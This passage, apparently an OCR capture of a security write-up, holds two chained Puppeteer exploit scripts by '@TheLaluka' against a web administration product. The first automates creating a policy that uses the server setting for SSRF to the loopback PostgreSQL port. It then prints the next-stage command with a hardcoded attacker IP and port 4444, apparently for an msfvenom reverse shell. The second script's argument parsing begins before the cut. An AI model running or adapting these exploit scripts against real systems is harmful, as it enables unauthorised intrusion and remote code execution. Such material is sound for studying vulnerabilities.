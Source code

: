 ```javascript
    await page.type("#txtDescription_19", policy)
    await page.type("#txtServer_2", "127.0.0.1") // Hit the loopback for ssrf
    await page.evaluate(() => document.getElementById("txtServerPort").value = "") // Reset dummy port
    await page.type("#txtServerPort", "5432") // Set postgresql default port
        // await page.type("#txtServerPort", "5555") // If you want to debug with socat exposing port 5555 on 0.0.0.0
    await page.click("#btnSave_58")
    console.log("[*] Polict created: " + policy)
    delay(3000)

    // Assign role to policy
    console.log("[+] Assign role to policy")
    await page.waitForSelector("#lstAvailableUserRoles_1")

    selectHandler = await page.$x("//option[contains(., '" + role + "')]");
    if (selectHandler.length > 0) {
        role_value = await selectHandler[0].evaluate(domElement => { return domElement.value })
        await page.select("select#lstAvailableUserRoles_1", role_value)
    } else {
        console.log("[-] Role option not found")
        process.exit(1)
    }
    await page.click("#btnUserRolesAdd")
    await page.click("#btnSave_57")
    
    // delay(3000)
    await browser.close()

    console.log("[!] All done here, now run")

    // console.log("node 02-sploit-user.js " + user_name + " " + user_passord + " " + realm + " " + policy + " IP PORT")
    // Yup, hardcoded IP, I never took the time to automate the payload generation with msfconsole / msfvenom :)
    console.log("node 02-sploit-user.js " + user_name + " " + user_passord + " " + realm + " " + policy + " 192.168.1.25 4444")
})();
```

### Second exploit

```javascript
/*
    Author: @TheLaluka
    run node 01-sploit-admin.js before this script
*/

const puppeteer = require("puppeteer");

if (process.argv.length != 8) {
    console.log("Fcked up arguments, run node 01-sploit-admin.js before this script")
    console.log("ex: node 02-sploit-user.js userXXX petitfromageaupoivreXXX realmXXX policyXXX IP PORT")
    process.exit(1)
} else {
    user_name = process.argv[2]
    console.log("[+] user_name: " + user_name)
    user_passord = process.argv[3]
    console.log("[+] user_passord: " + user_passord)
    realm = process.argv[4]
    console.log("[+] realm: " + realm)
    policy = process.argv[5]
```